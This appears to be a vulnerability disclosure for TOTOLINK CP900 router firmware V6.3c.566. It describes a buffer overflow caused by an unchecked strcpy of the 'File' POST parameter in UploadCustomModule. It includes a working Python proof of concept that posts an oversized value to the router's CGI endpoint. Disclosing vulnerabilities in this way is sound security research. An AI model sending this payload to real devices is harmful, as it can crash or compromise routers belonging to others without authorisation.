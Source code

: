 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：http://www.totolink.cn/data/upload/20210720/5bee10397c082b0419cbad3eb7d1bd97.zip

## Affected version

CP900 V6.3c.566

## Vulnerability details

In the CP900 V6.3c.566 firmware has a buffer overflow vulnerability in the `UploadCustomModule ` function. The `v10` variable receives the `File` parameter from a POST request. However, since the user can control the input of `File`, the `strcpy(v18, v10);` can cause a buffer overflow vulnerability.

![image-20240721211523937](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721211523937.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"File":"a"*300000,"topicurl":"UploadCustomModule"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721015356613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015356613.png)
